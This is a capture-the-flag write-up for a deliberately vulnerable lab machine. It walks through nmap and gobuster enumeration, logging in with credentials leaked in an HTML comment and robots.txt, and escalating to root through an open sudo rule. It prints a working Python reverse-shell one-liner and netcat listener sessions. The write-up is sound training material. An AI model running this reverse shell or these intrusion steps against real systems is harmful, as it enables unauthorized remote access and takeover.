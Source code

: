 # enumerate
## nmap
```console
bibo318@parrot:~$ sudo python3 pymap.py -t 10.10.238.21
[sudo] password for kali: 
created by bibo318/kurohat 
find me here https://github.com/bibo318

port scanning...
22/tcp open  ssh
80/tcp open  http
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 08:54 EDT
Nmap scan report for 10.10.238.21
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 38:ea:72:f3:bb:ee:fd:4f:3a:78:de:fd:f6:23:03:d1 (RSA)
|   256 4f:9e:1c:4b:d6:bb:3b:d4:90:10:99:d2:b6:26:74:bb (ECDSA)
|_  256 e1:f0:0c:69:55:a4:d9:2e:3b:86:a2:74:22:5a:f0:70 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 7.1.1 - 7.1.2 (92%), Linux 3.13 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   43.89 ms 10.8.0.1
2   43.79 ms 10.10.238.21

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.21 seconds
```
# Port 80
## gobuster
```console
bibo318@parrot:~$ gobuster dir -u http://10.10.238.21/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -t 54 -x .php,.txt,.html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.21/
[+] Threads:        54
[+] Wordlist:       /usr/share/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2020/07/17 09:01:06 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/assets (Status: 301)
/denied.php (Status: 302)
/index.html (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/07/17 09:02:33 Finished
===============================================================
```
What I found:
1. index.html
```html
<!--

Note to self, remember username!

Username: R1ckRul3s

-->
```
2. robots.txt : `Wubbalubbadubdub`
3. `/login.php` which I assume it will have something to do with `/portal.php` and `/denied.php`
4. /assests : just gif and pic

# flags 1
I was thinking to using Hydra to bruteforce it but I try to log in with all info I have and luckly I got in using what I found in `robots.txt` as a password.


![portal](pic/Screenshot%202020-07-17%20at%2015.09.11.png)

Note: 
- www-data priv
- cant access anything else than `commands`. get message `Only the REAL rick can view this page..`
- cannot ```cat```, ```head```, ```tail```, ```more```

No worry, if we cant `cat` then we can just get the page from webbrowser, there are really interesting file on the `www-data` root directory, view it to get the **frist flag**

# flag 2
clue.txt said `Look around the file system for the other ingredient.` the 2nd flag is in /home/rick. use ```less``` to view it

# flag 3
- suid
```console
-rwsr-xr-x 1 root root 40152 May 16  2018 /snap/core/5742/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/5742/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/5742/bin/ping6
-rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/5742/bin/su
-rwsr-xr-x 1 root root 27608 May 16  2018 /snap/core/5742/bin/umount
-rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/5742/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/5742/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/5742/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/5742/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/5742/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/5742/usr/bin/sudo
-rwsr-xr-- 1 root systemd-network 42992 Jan 12  2017 /snap/core/5742/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /snap/core/5742/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98472 Oct 15  2018 /snap/core/5742/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 390888 Jan 29  2016 /snap/core/5742/usr/sbin/pppd
-rwsr-xr-x 1 root root 40152 May 16  2018 /snap/core/6350/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/6350/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/6350/bin/ping6
-rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/6350/bin/su
-rwsr-xr-x 1 root root 27608 May 16  2018 /snap/core/6350/bin/umount
-rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/6350/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/6350/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/6350/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/6350/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/6350/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/6350/usr/bin/sudo
-rwsr-xr-- 1 root systemd-network 42992 Jan 12  2017 /snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Nov  5  2018 /snap/core/6350/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98472 Jan 29  2019 /snap/core/6350/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/6350/usr/sbin/pppd
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jul 13  2018 /usr/bin/pkexec
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 428240 Nov  5  2018 /usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98440 Jul 19  2018 /usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 14864 Jul 13  2018 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```
When I sudo, it dint give me back anything... like a jail shell. so I try to spawn a reverse shell with php
```console
bibo318@parrot:~$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.238.21] 39104
bibo318@parrot:~$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.238.21] 39106
bibo318@parrot:~$ nc -nvlp 1234
```
it didnt works, the shell is terminated direcly. so I ran ```which python```, ```which python3``` to fine another way. python3 is installed in the server. now spawn reverse shell using the following cmd:
```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
it works
```console
bibo318@parrot:~$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.238.21] 39152
/bin/sh: 0: can't access tty; job control turned off
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-238-21.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-238-21.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
$ sudo root ls /root
sudo: root: command not found
$ sudo ls /root
3rd.txt
snap
$ sudo cat /root/3rd.txt
```